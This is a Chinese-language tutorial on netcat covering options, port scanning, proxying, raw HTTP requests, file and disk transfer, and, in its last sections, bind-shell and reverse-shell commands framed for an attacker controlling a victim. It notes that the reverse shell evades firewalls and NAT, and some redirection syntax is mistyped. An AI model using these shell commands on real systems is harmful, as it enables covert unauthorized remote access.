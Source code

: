 # Linux NetCat

参考：

https://program-think.blogspot.com/2019/09/Netcat-Tricks.html

> 不同的netcat版本参数不同

## 概述

nc (Netcat)，是一款网络工具，用于主动与套接字建立连接

 Common uses include:

   ·   simple TCP proxies
   ·   shell-script based HTTP clients and servers
   ·   network daemon testing
   ·   a SOCKS or HTTP ProxyCommand for ssh(1)
   ·   and much, much more

pattern：`nc [option] destination port`

可以用空格分开多个端口，或是使用短横号

## 参数

- `-l`

  指定netcat是监听传入的连接，而不是发起与远程主机的连接。如果没有指定端口，默认随机开启一个端口

- `-n`

  不对域名做DNS解析

- `-p`

  指定netcat本地使用的端口

- `-s`

  如果有多IP，指定发送数据的IP

- `-v`

  输出详细内容

- `-u`

  使用udp协议，默认使用tcp

- `-w`

  指定多少空闲时间之后端口连接

- `-X proxy_protocal`

  指定代理服务器使用的协议，默认使用SOCKS5

  5代表SOCKS5，4代表SOCKS4，connect代表HTTPS

- `-x proxy_address:[port]`

  指定代理使用的地址

- `-z`

  一般用于端口扫描，不进行传输层连接

- `-k`

  监听多个连接

- `-e`

  有些版本没有`-e`参数，==但是任然可以通过管道符来执行命令，因为nc使用输入流==

  ```
  #server side
  root in /tmp λ ll  | nc -l 10086
  
  #client side
  root in /opt/test λ nc 8.135.0.171 10086
  .rw-r--r-- root root 766 B  Thu Jan  7 20:54:22 2021 1
  .rw-r--r-- root root   3 B  Thu Jan  7 15:19:02 2021 CmsGoAgent.pid
  |rw-r--r-- root root   0 B  Thu Jan  7 20:48:05 2021 pipe2
  drwx------ root root   4 KB Thu Jan  7 15:58:03 2021 systemd-private-15d3cb8fbace4e55b6e68bdfecdc488e-apache2.service-4X20kz
  drwx------ root root   4 KB Thu Jan  7 15:19:02 2021 systemd-private-15d3cb8fbace4e55b6e68bdfecdc488e-chrony.service-OueTdJ
  drwx------ root root   4 KB Thu Jan  7 15:18:59 2021 systemd-private-15d3cb8fbace4e55b6e68bdfecdc488e-systemd-resolved.service-D22I1S
  ```

## example

1. 建立两台主机的连接，nc不关心那一台是服务器还是客服端。两端都会显示内容

   ```
   host1
   root in ~ λ nc -l 10086
   
   echo a
   echo b
   cd /etc	
   pwd
   echo $SHELL
   
   host2
   root in /etc λ nc 8.135.0.171 10086
   
   echo a
   echo b
   cd /etc	
   pwd
   echo $SHELL  
   ```

2. 通过nc传输内容，传输完成后会自动关闭连接。==不经过应用层==

   ```
   #server side
   root in /opt λ nc -l 10086 >  test.txt #nc将接受到内容写入文件
   
   
   #client side
   root in /etc λ nc 8.135.0.171 10086 < ~/.ssh/id_rsa.pub 
   ```

3. 测试端口是否开放

   ```
   root in /etc λ nc -nvz 8.135.0.171 443 80
   (UNKNOWN) [8.135.0.171] 443 (https) open
   (UNKNOWN) [8.135.0.171] 80 (http) open     
   
   ```

4. 使用代理服务器

   通过`socks5://10.2.3.4:8080`访问host.example.com的42端口

   ```
   nc -x 10.2.3.4:8080 -X connect host.example.com 42
   ```

5. 使用netcat访问网站，这样会发送一条请求指定IP的端口

   ==这样不会暴露浏览器信息，这里必须要有line feed和carriage return==

   ```
   root in /etc λ echo -e "GET / HTTP/1.0\r\n" | nc -v -w 3 39.156.69.79 80 
   39.156.69.79: inverse host lookup failed: Unknown host
   (UNKNOWN) [39.156.69.79] 80 (http) open
   HTTP/1.1 200 OK
   Date: Thu, 07 Jan 2021 11:23:17 GMT
   Server: Apache
   Last-Modified: Tue, 12 Jan 2010 13:48:00 GMT
   ETag: "51-47cf7e6ee8400"
   Accept-Ranges: bytes
   Content-Length: 81
   Cache-Control: max-age=86400
   Expires: Fri, 08 Jan 2021 11:23:17 GMT
   Connection: Close
   Content-Type: text/html
   
   <html>
   <meta http-equiv="refresh" content="0;url=http://www.baidu.com/">
   ```

   ```
   C:\Users\82341>echo -e "GET / HTTP1.0\r\n" | ncat  baid.com 80
   HTTP/1.1 400 Bad Request
   Server: nginx/1.10.3 (Ubuntu)
   Date: Sat, 06 Feb 2021 08:22:47 GMT
   Content-Type: text/html
   Content-Length: 182
   Connection: close
   
   <html>
   <head><title>400 Bad Request</title></head>
   <body bgcolor="white">
   <center><h1>400 Bad Request</h1></center>
   <hr><center>nginx/1.10.3 (Ubuntu)</center>
   </body>
   </html>
   ```

   

6. 使用nc备份整个磁盘

   ```
   recv  接收端
   nc -l -p xxx | dd of=/dev/sdb
   
   send 发送端
   dd if=/dev/sda | nc x.x.x.x xxx 
   ```

7. 远程使用命令

   使用这种方式会在服务端显示交互的shell，不具备隐蔽性

   ```
   #server side
   root in /tmp λ nc -l 10086 | /bin/bash -i 2&>1
   123
   
   #client side
   root in /usr/local/\ λ nc 8.135.0.171 10086
   echo 123
   ```

## 被动连接

==远程执行命令==，所有服务端的内容将在客户端显示。这种方式能被防火墙拦截

```
server side 服务端
root in /tmp λ mkfifo /tmp/pipe2
root in /tmp λ cat /tmp/pipe2 | /bin/bash -i 2&>1  | nc -l 10086 > /tmp/pipe2 
#第一次执行空内容这里表示nc server 接受nc client 输入的内容写入到具名管道符pipe2，然后从pipe2中读取内容执行


client side 客户端
root in /opt/test λ nc 8.135.0.171 10086
```

## 主动连接

与被动连接类似，唯一的差别在于把客户端与服务端对调。也就是所攻击者的nc充当服务器，受害者的nc充当客户端。受害者的nc无需开启监听端口，==所以不受防火墙和NAT的影响==

```
#client side
nc -lk -p xxx

#server side
/bin/bash -i 2 &> 1 | nc x.x.x.x xxx
```

## 被动连接VS主动连接

**被动连接**

由于绝大数PC都处于内网（未分配公网IP）。攻击者需要与受害者在同一局域网，才能建立通信。服务端需要显示开启监听端口，很容易引起用户怀疑。

**主动连接**

主动连接，没有这种种弊端